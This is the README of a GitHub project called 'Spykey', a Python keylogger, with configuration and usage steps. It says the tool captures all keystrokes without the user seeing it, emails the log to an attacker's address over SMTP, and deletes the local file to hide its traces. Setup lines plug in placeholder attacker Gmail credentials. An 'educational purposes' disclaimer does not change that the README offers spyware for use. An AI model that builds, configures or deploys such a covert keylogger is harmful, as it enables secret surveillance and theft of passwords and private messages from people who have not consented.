


# Spykey
*by Subhodeep Sarkar*

Keylogger for spying made with Python

This keylogger, once started, can record all the keystrokes (Alphanumeric & Special keys) in a file and once the program terminates (By hitting ESC key), the
file is immediately sent to the attacker through email and then deletes the file locally to remove any track. The entire process is invisible to the user and
thus can prove fatal if used maliciously.

WARNING ⚠️: **This project is strictly for educational purposes, I will not be held responsible for any damage caused due to the misuse of this code**

## Configuration:
- LINE 9: Change sender email ``sender = 'attacker01mail@gmail.com'``
- LINE 10: Change sender password ``password = 'attacker01password'``
- LINE 54: Change recipient email ``create_and_send_email('attacker02mail@gmail.com'...``

## Usage:
- Install pynput using the following command ``pip3 install pynput``
- Run it using ``python main.py``
- Stop it by pressing ``ESC`` key

## Modules used:
- Pynput
- Datetime
- Os
- Email.message
- Mimetypes
- Smtplib
